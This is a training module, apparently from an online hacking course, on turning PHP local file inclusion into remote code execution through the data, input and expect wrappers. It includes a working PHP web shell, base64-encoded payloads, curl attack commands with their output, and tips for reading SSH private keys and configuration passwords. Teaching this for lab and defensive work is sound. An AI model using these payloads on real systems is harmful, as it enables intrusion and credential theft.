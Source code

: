 # PHP Wrappers

So far in this module, we have been exploiting file inclusion vulnerabilities to disclose local files through various methods. From this section, we will start learning how we can use file inclusion vulnerabilities to execute code on the back-end servers and gain control over them.

We can use many methods to execute remote commands, each of which has a specific use case, as they depend on the back-end language/framework and the vulnerable function's capabilities. One easy and common method for gaining control over the back-end server is by enumerating user credentials and SSH keys, and then use those to login to the back-end server through SSH or any other remote session. For example, we may find the database password in a file like `config.php`, which may match a user's password in case they re-use the same password. Or we can check the `.ssh` directory in each user's home directory, and if the read privileges are not set properly, then we may be able to grab their private key (`id_rsa`) and use it to SSH into the system.

Other than such trivial methods, there are ways to achieve remote code execution directly through the vulnerable function without relying on data enumeration or local file privileges. In this section, we will start with remote code execution on PHP web applications. We will build on what we learned in the previous section, and will utilize different `PHP Wrappers` to gain remote code execution. Then, in the upcoming sections, we will learn other methods to gain remote code execution that can be used with PHP and other languages as well.

***

## Data

The [data](https://www.php.net/manual/en/wrappers.data.php) wrapper can be used to include external data, including PHP code. However, the data wrapper is only available to use if the (`allow_url_include`) setting is enabled in the PHP configurations. So, let's first confirm whether this setting is enabled, by reading the PHP configuration file through the LFI vulnerability.

### **Checking PHP Configurations**

To do so, we can include the PHP configuration file found at (`/etc/php/X.Y/apache2/php.ini`) for Apache or at (`/etc/php/X.Y/fpm/php.ini`) for Nginx, where `X.Y` is your install PHP version. We can start with the latest PHP version, and try earlier versions if we couldn't locate the configuration file. We will also use the `base64` filter we used in the previous section, as `.ini` files are similar to `.php` files and should be encoded to avoid breaking. Finally, we'll use cURL or Burp instead of a browser, as the output string could be very long and we should be able to properly capture it:

```shell-session
$ curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"
<!DOCTYPE html>

<html lang="en">
...SNIP...
 <h2>Containers</h2>
    W1BIUF0KCjs7Ozs7Ozs7O
    ...SNIP...
    4KO2ZmaS5wcmVsb2FkPQo=
<p class="read-more">
```

Once we have the base64 encoded string, we can decode it and `grep` for `allow_url_include` to see its value:

```shell-session
$ echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include

allow_url_include = On
```

Excellent! We see that we have this option enabled, so we can use the `data` wrapper. Knowing how to check for the `allow_url_include` option can be very important, as `this option is not enabled by default`, and is required for several other LFI attacks, like using the `input` wrapper or for any RFI attack, as we'll see next. It is not uncommon to see this option enabled, as many web applications rely on it to function properly, like some WordPress plugins and themes, for example.

### **Remote Code Execution**

With `allow_url_include` enabled, we can proceed with our `data` wrapper attack. As mentioned earlier, the `data` wrapper can be used to include external data, including PHP code. We can also pass it `base64` encoded strings with `text/plain;base64`, and it has the ability to decode them and execute the PHP code.

So, our first step would be to base64 encode a basic PHP web shell, as follows:

```shell-session
$ echo '<?php system($_GET["cmd"]); ?>' | base64

PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg==
```

Now, we can URL encode the base64 string, and then pass it to the data wrapper with `data://text/plain;base64,`. Finally, we can use pass commands to the web shell with `&cmd=<COMMAND>`:

<figure><img src="../../../../.gitbook/assets/image (283).png" alt=""><figcaption><p>http://&#x3C;SERVER_IP>:/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&#x26;cmd=id</p></figcaption></figure>

We may also use cURL for the same attack, as follows:

```shell-session
$ curl -s 'http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id' | grep uid
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

***

## Input

Similar to the `data` wrapper, the [input](https://www.php.net/manual/en/wrappers.php.php) wrapper can be used to include external input and execute PHP code. The difference between it and the `data` wrapper is that we pass our input to the `input` wrapper as a POST request's data. So, the vulnerable parameter must accept POST requests for this attack to work. Finally, the `input` wrapper also depends on the `allow_url_include` setting, as mentioned earlier.

To repeat our earlier attack but with the `input` wrapper, we can send a POST request to the vulnerable URL and add our web shell as POST data. To execute a command, we would pass it as a GET parameter, as we did in our previous attack:

```shell-session
$ curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" | grep uid
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

{% hint style="info" %}
**Note:** To pass our command as a GET request, we need the vulnerable function to also accept GET request (i.e. use `$_REQUEST`). If it only accepts POST requests, then we can put our command directly in our PHP code, instead of a dynamic web shell (e.g. `<\?php system('id')?>`)
{% endhint %}

***

## Expect

Finally, we may utilize the [expect](https://www.php.net/manual/en/wrappers.expect.php) wrapper, which allows us to directly run commands through URL streams. Expect works very similarly to the web shells we've used earlier, but don't need to provide a web shell, as it is designed to execute commands.

However, expect is an external wrapper, so it needs to be manually installed and enabled on the back-end server, though some web apps rely on it for their core functionality, so we may find it in specific cases. We can determine whether it is installed on the back-end server just like we did with `allow_url_include` earlier, but we'd `grep` for `expect` instead, and if it is installed and enabled we'd get the following:

```shell-session
$ echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep expect
extension=expect
```

As we can see, the `extension` configuration keyword is used to enable the `expect` module, which means we should be able to use it for gaining RCE through the LFI vulnerability. To use the expect module, we can use the `expect://` wrapper and then pass the command we want to execute, as follows:

```shell-session
$ curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

As we can see, executing commands through the `expect` module is fairly straightforward, as this module was designed for command execution, as mentioned earlier. The [Web Attacks](https://academy.hackthebox.com/module/details/134) module also covers using the `expect` module with XXE vulnerabilities, so if you have a good understanding of how to use it here, you should be set up for using it with XXE.

These are the most common three PHP wrappers for directly executing system commands through LFI vulnerabilities. We'll also cover the `phar` and `zip` wrappers in upcoming sections, which we may use with web applications that allow file uploads to gain remote execution through LFI vulnerabilities.
